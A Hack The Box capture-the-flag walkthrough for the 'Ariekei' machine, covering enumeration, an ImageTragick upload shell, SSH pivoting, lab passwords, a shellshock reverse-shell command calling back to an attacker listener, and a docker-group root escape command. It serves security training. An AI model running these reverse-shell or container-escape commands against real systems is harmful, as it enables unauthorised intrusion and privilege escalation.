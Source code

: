 ```yaml
---
title: "Hack The Box - Ariekei"
tags: [linux,insane,shellshock,cgi-bin,imagetragick,docker containers,container,port 1022,docker abuse]
categories: HackTheBox
---
```


![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled.png)

## NMAP :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%201.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%201.png)

→ Nginx on port 443 [ https ]
→ OpenSSH 7.2p2 ( Xenial ) port 22
→ OpenSSH 6.6.1p1 ( Trusty ) port 1022

## Enumerating HTTPS :

⇒ Found subdomains from SSL Certificate :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%202.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%202.png)

⇒ **Enumerating beehive.ariekei.htb**
→ In headers we see ariekei-waf
→ Running gobuster we find :

**/blog**
**/cgi-bin/stats**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%203.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%203.png)

→ Lets exploit using shellshock
Exploit : [https://www.exploit-db.com/exploits/34900](https://www.exploit-db.com/exploits/34900)

- It doesn't work because of the **WAF.**

→  The blog page doesn't have anything interesting

⇒ **Enumerating calvin.ariekei.htb**

→ Running gobuster we find :
**/upload**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%204.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%204.png)

→ We use ImageTragick to exploit it :  
[https://book.hacktricks.xyz/pentesting-web/file-upload#imagetragic](https://book.hacktricks.xyz/pentesting-web/file-upload#imagetragic)

- First lets create .mvg file :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%205.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%205.png)

→ We uploaded it and got an shell :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%206.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%206.png)

## Pivoting to Bastion

⇒ In /commons directory there's an .secret directory which contains bastion ssh key :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%207.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%207.png)

⇒ We ssh'ed into bastion as root [ Port 1022 ] :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%208.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%208.png)

## Pivoting to Beehive

⇒ In **commons/container** folder we find **blog-test** ( **Beehive** ) folder. Enumerating the config files we find :
→ Its running on **172.24.0.2**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%209.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%209.png)

→ We also found an password :
Password : **Ib3!kTEvYw6*P7s**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2010.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2010.png)

⇒ We can use shellshock exploit now as we are on a different machine and WAF won't block it now.
→ Shellshock : [https://www.exploit-db.com/exploits/34900](https://www.exploit-db.com/exploits/34900)

**python [enox.py](http://enox.py/) payload=reverse rhost=172.24.0.2 lhost=172.24.0.253 lport=4444 pages=/cgi-bin/stats**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2011.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2011.png)

→ We switched to root using the password we previously found.
→ We found spanishdancer user ssh keys in that user home folder :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2012.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2012.png)

→ Cracked key password : **purple1**

⇒ SSH'ed in using spanishdancer ssh key  :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2013.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2013.png)

***USER OWNED***

## Privilege Escalation to Root

→ We see that our user is in docker group. Lets abuse it to get root :

**docker run -v /:/mnt --rm -it bash chroot /mnt sh**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2014.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2014.png)

***ROOTED***

[TL;DR](https://www.notion.so/TL-DR-d857de4c7a7f4e33969f8b229768d67a)
